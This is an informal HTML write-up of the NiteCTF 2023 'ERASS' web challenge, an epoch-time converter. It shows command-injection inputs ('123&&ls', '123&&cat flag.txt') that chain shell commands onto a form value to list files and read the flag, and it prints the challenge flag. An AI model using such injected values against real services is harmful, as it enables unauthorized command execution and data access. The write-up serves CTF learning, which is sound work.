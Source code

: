 <!DOCTYPE html>
<html>
<head>
     
</head>
<body>
    <h1>NiteCTF 2023 - ERASS Challenge Writeup</h1>

    <h2>Challenge Description</h2>
    <p>Emergency response? Afraid not.

http://eraas.web.nitectf.live/

</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        <li>i open link...</li>
        <li>this is a epoch and unix date time convertor convert milisecond to date...</li>
                <li>no normal ls or cat input accespt so i used 123&&ls and it run both and get flag.txt...</li>
                                    <li>iuse <pre>123&&cat flag.txt</pre> and get flag ..</li>

      
    </ol>

    <h2>Flag</h2>
    <p class="flag">nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}</p>

    <h2>Conclusion</h2>
    <p>this is a easy chanllenge for epoch and date time convertor using same command line injection and rce.</p>
</body>
</html>
